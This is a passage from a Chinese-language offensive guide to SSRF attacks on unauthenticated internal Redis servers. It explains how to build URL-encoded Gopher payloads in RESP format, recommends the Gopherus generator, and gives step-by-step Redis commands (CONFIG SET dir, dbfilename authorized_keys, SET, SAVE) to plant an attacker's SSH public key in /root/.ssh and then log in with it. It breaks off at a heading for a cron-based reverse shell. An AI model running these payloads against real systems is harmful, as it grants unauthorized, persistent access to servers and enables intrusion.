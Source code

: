 **载荷构造 (Gopher)：**

1.  **捕获 Redis 流量 (可选，用于理解)：**
    * `tcpdump -i <接口> tcp and port 6379 -w redis.pcapng`
2.  **模拟命令：** 本地连接到 Redis 或测试实例并运行上述命令。
3.  **为 Gopher 格式化：**
    * Redis 命令以 RESP (REdis Serialization Protocol) 格式发送。命令的每个部分都是一个批量字符串 (bulk string)。
    * RESP 中 `SET key value` 的示例 (简化版，对于 Gopher 通常只需要换行符)：
        ```
        *3%0d%0A$3%0d%0ASET%0d%0A$3%0d%0Akey%0d%0A$5%0d%0Avalue%0d%0A
        ```
    * 发送到 gopher 的载荷将是这些命令的串联，每个命令都经过正确格式化和 URL 编码。记住前导下划线 `_`。
    * 示例结构：`gopher://<内部Redis IP>:6379/_<RESP格式化的命令>`
4.  **工具：** **tarunkant/Gopherus** 非常适合生成这些 Redis gopher 载荷。

---

### 14. SSRF 到 Redis：未授权写入 SSH 公钥 🔑

**核心原理：**

与写入 Web Shell 类似，如果内部 Redis 服务器无需身份验证即可访问，并且您知道目标用户的主目录 (例如 `/root/.ssh/` 或 `/home/user/.ssh/`)，则可以将您的 SSH 公钥写入 `authorized_keys` 文件。这允许以该用户身份对服务器进行无密码 SSH 访问。

**先决条件：**

* SSRF 到 Redis。
* 目标服务器已启用 SSH。
* 已知目标用户的 `.ssh` 目录和 `authorized_keys` 文件的路径。
* Redis 进程必须对此路径具有写权限。

**执行步骤：**

1.  **生成 SSH 密钥对：**
    * `ssh-keygen -t rsa` (创建 `id_rsa` 私钥和 `id_rsa.pub` 公钥)。
2.  **准备公钥内容：**
    * 复制您的 `id_rsa.pub` 文件的内容。它是一行文本。
    * 在将密钥内容注入 Redis 时，通常最好在密钥内容前后添加换行符，以确保它在 `authorized_keys` 中独占一行 (例如，`\n\n<您的公钥字符串>\n\n`)。
3.  **Redis 命令 (通过 Gopher 发送)：**
    1.  `CONFIG SET dir /root/.ssh/` (设置 `authorized_keys` 的目标目录；根据需要调整用户/路径)
    2.  `CONFIG SET dbfilename authorized_keys` (设置文件名)
    3.  `SET sshkey "<您格式化后的公钥字符串>"` (将公钥存储在 Redis 键中)
    4.  `SAVE` (写入 `authorized_keys`)
4.  **构造 Gopher 载荷：**
    * 使用与 Web Shell 相同的方法 (第 13 点)，但使用上面的 Redis 命令。Gopherus 可以提供帮助。
5.  **通过 SSH 连接：**
    * 一旦发送了 gopher 载荷并且 Redis 保存完毕，尝试 SSH 连接：
        `ssh -i /path/to/your/id_rsa <用户>@<目标服务器IP>` (如果 SSH 不在 22 端口，请使用相应端口)。

---

### 15. SSRF 到 Redis：未授权写入基于 Cron 的反弹 Shell 🕒

**核心原理：**
